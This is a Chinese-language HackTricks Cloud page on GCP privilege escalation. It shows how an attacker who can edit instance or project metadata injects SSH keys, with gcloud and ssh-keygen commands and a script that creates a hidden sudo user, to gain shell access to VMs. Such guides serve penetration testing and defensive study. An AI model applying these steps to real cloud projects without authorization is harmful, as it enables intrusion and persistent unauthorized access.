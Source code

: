 # GCP - 添加自定义 SSH 元数据

## GCP - 添加自定义 SSH 元数据

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

对实例的元数据修改可能导致 **如果攻击者获得必要权限，将会带来重大安全风险**。

#### **将 SSH 密钥纳入自定义元数据**

在 GCP 上，**Linux 系统** 通常会从 [Google Compute Engine 的 Python Linux 客户端环境](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) 执行脚本。其关键组件是 [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，旨在 **定期检查** 实例元数据端点以获取 **授权 SSH 公钥的更新**。

因此，如果攻击者能够修改自定义元数据，他可以使守护进程找到一个新的公钥，该公钥将被处理并 **集成到本地系统中**。该密钥将被添加到 **现有用户的 `~/.ssh/authorized_keys` 文件中，或者根据密钥的格式可能创建一个具有 `sudo` 权限的新用户**。攻击者将能够攻陷主机。

#### **将 SSH 密钥添加到现有特权用户**

1. **检查实例上的现有 SSH 密钥：**
*   执行命令以描述实例及其元数据，以定位现有的 SSH 密钥。输出中的相关部分将在 `metadata` 下，具体是 `ssh-keys` 键。

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* 注意 SSH 密钥的格式：用户名在密钥之前，用冒号分隔。
2. **为 SSH 密钥元数据准备文本文件：**
* 将用户名及其对应的 SSH 密钥的详细信息保存到名为 `meta.txt` 的文本文件中。这对于保留现有密钥并添加新密钥至关重要。
3. **为目标用户（本示例中的 `alice`）生成新的 SSH 密钥：**
*   使用 `ssh-keygen` 命令生成新的 SSH 密钥，确保注释字段（`-C`）与目标用户名匹配。

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 将新的公钥添加到 `meta.txt` 中，模仿实例元数据中的格式。
4. **更新实例的 SSH 密钥元数据：**
*   使用 `gcloud compute instances add-metadata` 命令将更新的 SSH 密钥元数据应用于实例。

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **使用新的 SSH 密钥访问实例：**
*   使用新的密钥通过 SSH 连接到实例，以目标用户（本示例中的 `alice`）的身份访问 shell。

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **创建新特权用户并添加 SSH 密钥**

如果没有找到有趣的用户，可以创建一个新用户并赋予其 `sudo` 权限：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

通过**在项目级别应用SSH密钥**，可以扩大对云环境中多个虚拟机（VM）的SSH访问范围。这种方法允许对项目中未明确阻止项目范围内SSH密钥的任何实例进行SSH访问。以下是简要指南：

1. **在项目级别应用SSH密钥：**
*   使用`gcloud compute project-info add-metadata`命令将`meta.txt`中的SSH密钥添加到项目的元数据中。此操作确保SSH密钥在项目中的所有VM中被识别，除非某个VM启用了“阻止项目范围内SSH密钥”选项。

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **使用项目范围内的密钥SSH进入实例：**
* 在项目范围内的SSH密钥到位后，您可以SSH进入项目中的任何实例。未阻止项目范围内密钥的实例将接受SSH密钥，从而授予访问权限。
* SSH进入实例的直接方法是使用`gcloud compute ssh [INSTANCE]`命令。此命令使用您当前的用户名和在项目级别设置的SSH密钥尝试访问。

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
